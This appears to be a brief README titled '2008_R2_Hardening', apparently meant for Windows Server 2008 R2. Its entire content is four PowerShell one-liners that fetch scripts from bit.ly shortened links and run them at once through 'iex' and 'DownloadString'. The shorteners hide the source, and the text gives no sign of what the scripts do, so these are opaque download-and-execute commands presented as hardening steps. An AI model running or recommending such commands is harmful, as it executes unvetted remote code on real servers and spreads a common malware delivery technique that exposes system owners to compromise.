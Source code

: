# 2008_R2_Hardening
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/36qZxOg')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2MPMyhq')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2FkU2op')"
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://bit.ly/2ZQ0zkz')"
